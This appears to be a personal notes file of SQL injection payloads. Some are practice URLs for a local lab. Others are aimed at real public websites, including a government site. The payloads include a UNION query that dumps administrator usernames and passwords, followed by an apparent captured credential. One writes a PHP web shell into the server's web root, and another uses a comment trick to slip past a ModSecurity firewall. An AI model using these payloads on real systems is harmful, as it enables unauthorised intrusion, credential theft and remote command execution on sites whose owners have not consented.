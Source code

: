 

http://www.bible-history.com/subcat.php?id=-1 union select group_concat(admin_username, 0x3a3a, admin_password, '<br/>') from administrators--+
jc::Mos3s



union select '<?php system($_GET[cmd]); ?>'+into+outfile+'/opt/lampp/htdocs/aa.php'
http://www.bible-history.com/subcat.php?id=-1 union select '<?php system($_GET[cmd]); ?>'+into+outfile+'/opt/lampp/htdocs/aa.php'--+


MCSC SQL Lab
http://192.168.0.113/sql/lab1/index.php?id=1'order by 5--+
http://192.168.0.113/sql/lab1/index.php?id=-1'UNION SELECT 1,version(),3,4,5--+


http://192.168.0.113/sql/lab2/?id=-1 UNION SELECT 1,version(),3,4,5--+
http://192.168.0.113/sql/lab3/?id=-111 union select 1111,version() --+


http://192.168.0.113/sql/lab5/?id=-1') UNION SELECT 1,version(),3,4,5--+
http://192.168.0.113/sql/lab6/?id=-1")UNION SELECT 1,version(),3,4,5--+

http://192.168.0.113/sql/lab8/?id=1' or 1 group by concat_ws(0x3a,version(),floor(rand(0)*2)) having min(0) or 1 --+
http://192.168.0.113/sql/lab9/?id=-1')) UNION SELECT 1,version(),3,4,5--+

http://192.168.0.113/sql/lab10/?id=1
username=admin' union select 1111,version()--+&password=aa


http://192.168.0.113/sql/lab7/index.php?id=-1))union%20select%20version(),222222,33333,44444,55555--%20-


concat(0x<title></title>

find diff in linux ==> use diff aa.txt bb.txt



view-source:http://192.168.0.113/sql/lab4/?id=2 union select 1111,version(),333333,44444



//Fire wall ==>
Not Acceptable!
An appropriate representation of the requested resource could not be found on this server. This error was generated by Mod_Security.

http://www.multan.gov.pk/files.php?id=-1 /*!50000UNION */ SELECT 111111,222222 #


http://www.multan.gov.pk/files.php?id=-1 /*!50000UNION */ SELECT 111111,version() #




//SQL Blind Base
Boolean
Tme base

Sqlmap -h
sqlmap -u ""
